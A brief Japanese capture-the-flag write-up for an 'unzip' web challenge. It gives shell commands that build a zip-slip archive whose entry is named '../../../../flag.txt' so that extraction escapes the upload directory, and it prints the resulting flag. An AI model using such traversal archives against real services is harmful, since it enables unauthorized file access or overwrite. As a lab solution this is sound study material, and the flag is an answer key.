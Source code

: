 # unzip

188 pt (118 Solves)

```txt
Unzip Your .zip Archive Like a Pro.
[url]
```

## 添付ファイル

- [index.php](./attachments/index.php)
- [docker-compose.yml](./attachments/docker-compose.yml)

## 概要

zipファイルをアップロードしたら解凍してくれる。  
urlでディレクトリトラバーサル的な事ができそうだったけどできなかった。

## 解

zipslipやっていく。

```txt
touch flag.txt
mkdir -p dir/dir/dir/dir
cd dir/dir/dir/dir
zip zip-slip.zip ../../../../flag.txt
```

`zip-slip.zip`をアップロードして解凍させる。`../../../../flag.txt`を開けばflag。

```txt
ctf4b{y0u_c4nn07_7ru57_4ny_1npu75_1nclud1n6_z1p_f1l3n4m35}
```
